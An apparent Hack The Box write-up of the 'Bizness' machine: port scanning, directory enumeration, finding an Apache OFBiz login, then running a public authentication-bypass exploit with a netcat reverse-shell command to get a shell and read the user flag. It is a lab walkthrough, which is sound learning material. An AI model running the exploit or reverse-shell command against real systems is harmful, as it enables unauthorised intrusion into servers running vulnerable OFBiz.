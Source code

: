 # Bizness | HTB
### Difficulty Level: Easy
------------------------------------------

add bizness.htb to your /etc/hosts file with:

```bash
echo '<machine-ip>    bizness.htb' >> /etc/hosts
```

Start with nmap scan to discover open ports and services:

```
└─# nmap -T4 10.10.11.252 -oN bizness.nmap
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-04 18:32 EDT
Nmap scan report for bizness.htb (10.10.11.252)
Host is up (0.096s latency).
Not shown: 997 closed tcp ports (reset)
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
443/tcp open  https

Nmap done: 1 IP address (1 host up) scanned in 2.66 seconds
```

-T4 - Increases the scan's speed.

-oN - saves the output to a file.

There are 3 open ports:

22 - ssh

80 - http

443 - https


browse into the webpage:

![image](https://cdn-images-1.medium.com/max/1000/1*RDiEx9XtlQ-oLb4J91FiNw.png)


gobuster didn't work and I got errors, so I decide to use another tool, dirsearch.

```bash

dirsearch -u https://bizness.htb

Target: https://bizness.htb/

[18:42:05] Starting:                                                                                                          
[18:42:22] 400 -  795B  - /\..\..\..\..\..\..\..\..\..\etc\passwd               
[18:42:24] 400 -  795B  - /a%5c.aspx                                        
[18:42:25] 302 -    0B  - /accounting  ->  https://bizness.htb/accounting/  
[18:42:57] 302 -    0B  - /catalog  ->  https://bizness.htb/catalog/        
[18:42:59] 302 -    0B  - /common  ->  https://bizness.htb/common/          
[18:42:59] 404 -  762B  - /common/                                          
[18:42:59] 404 -  780B  - /common/config/api.ini                            
[18:42:59] 404 -  779B  - /common/config/db.ini                             
[18:43:03] 302 -    0B  - /content  ->  https://bizness.htb/content/        
[18:43:03] 302 -    0B  - /content/debug.log  ->  https://bizness.htb/content/control/main
[18:43:03] 302 -    0B  - /content/  ->  https://bizness.htb/content/control/main
[18:43:04] 200 -   34KB - /control/                                         
[18:43:04] 200 -   34KB - /control
[18:43:04] 200 -   11KB - /control/login                                    
[18:43:09] 404 -  741B  - /default.jsp                                      
[18:43:09] 404 -  763B  - /default.html                                     
[18:43:14] 302 -    0B  - /error  ->  https://bizness.htb/error/            
[18:43:15] 404 -  761B  - /error/                                           
[18:43:15] 404 -  770B  - /error/error.log                                  
[18:43:15] 302 -    0B  - /example  ->  https://bizness.htb/example/        
[18:43:24] 302 -    0B  - /images  ->  https://bizness.htb/images/

```

There is an interesting path: /control/login 

 OFBiz Login page out there.

 ![image](https://cdn-images-1.medium.com/max/1000/1*Mz5kqCyzrCJEhqxO5UQuRQ.png)

 I tried to get in with default credentials but without any success.

So let's find an exploit for this service and the specified version. 


![image](https://cdn-images-1.medium.com/max/1000/1*C7BTmP6IdRsGEk40ZWtH-w.png)


After some searching in google I found an exploit:

https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass

So I used git clone to grab the repository.


```bash
└─# python3 exploit.py --url https://bizness.htb --cmd 'nc -c bash <tun-0> 4444'
[+] Generating payload...
[+] Payload generated successfully.
[+] Sending malicious serialized payload...
[+] The request has been successfully sent. Check the result of the command.
```

I run the exploit with a command to connect my machine with netcat.
then, create netcat listener to get the connection.

```bash
nc -lnvp 4444
```

and there is a shell.

```bash
└─# nc -lnvp 4444                          
listening on [any] 4444 ...
connect to [tun-0] from (UNKNOWN) [10.10.11.252] 38330
whoami
ofbiz
python3 -c 'import pty; pty.spawn("/bin/bash")'
ofbiz@bizness:/opt/ofbiz$
```

Grab user.txt flag.

```bash
ofbiz@bizness:~$ cat user.txt
cat user.txt
********************************
ofbiz@bizness:~$
```











 











